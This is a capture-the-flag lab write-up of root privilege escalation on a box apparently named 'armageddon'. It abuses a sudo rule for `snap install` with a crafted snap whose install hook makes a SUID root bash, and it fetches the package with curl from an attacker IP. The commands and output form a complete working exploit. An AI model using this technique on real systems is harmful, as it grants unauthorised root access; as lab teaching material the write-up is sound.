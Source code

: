 ## Root
Once we log in, if we run `sudo -l` we can see the following:  
```
Matching Defaults entries for brucetherealadmin on armageddon:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin, env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User brucetherealadmin may run the following commands on armageddon:
    (root) NOPASSWD: /usr/bin/snap install *
```
Now we can see [GTFOBins for snap](https://gtfobins.github.io/gtfobins/snap/#sudo)we need to generate one package to trigger command execution as root.  
As we discovered reverse shell execution doesn't work and we cannot edit anything under `/usr/bin` because this path is included into the snamp environment.  
So we can make a copy of bash in our home directory and generate the snap package containing the following payload:  
```bash
root@kali www ]$ COMMAND='chown root:root /home/brucetherealadmin/bash; chmod 4755 /home/brucetherealadmin/bash'
mkdir -p meta/hooks
printf '#!/bin/sh\n%s; false' "$COMMAND" >meta/hooks/install
chmod +x meta/hooks/install
fpm -n xxxx -s dir -t snap -a all meta

Created package {:path=>"xxxx_1.0_all.snap"}
```
Now we can upload the package and install it via `sudo`
```bash
[brucetherealadmin@armageddon ~]$ curl -o suid.snap  http://10.10.14.19/xxxx_1.0_all.snap
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  4096  100  4096    0     0  46748      0 --:--:-- --:--:-- --:--:-- 47627
[brucetherealadmin@armageddon ~]$ sudo snap install suid.snap --dangerous --devmode      
error: cannot perform the following tasks:
- Run install hook of "xxxx" snap if present (run hook "install": exit status 1)
[brucetherealadmin@armageddon ~]$ ls -la bash 
-rwsr-xr-x. 1 root root 964536 Jun 23 09:48 bash
[brucetherealadmin@armageddon ~]$ ./bash -p
bash-4.2# id
uid=1000(brucetherealadmin) gid=1000(brucetherealadmin) euid=0(root) groups=1000(brucetherealadmin) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
bash-4.2# 
```
as we can see the effective uid is set to 0 (root), hence we owned root on this box.

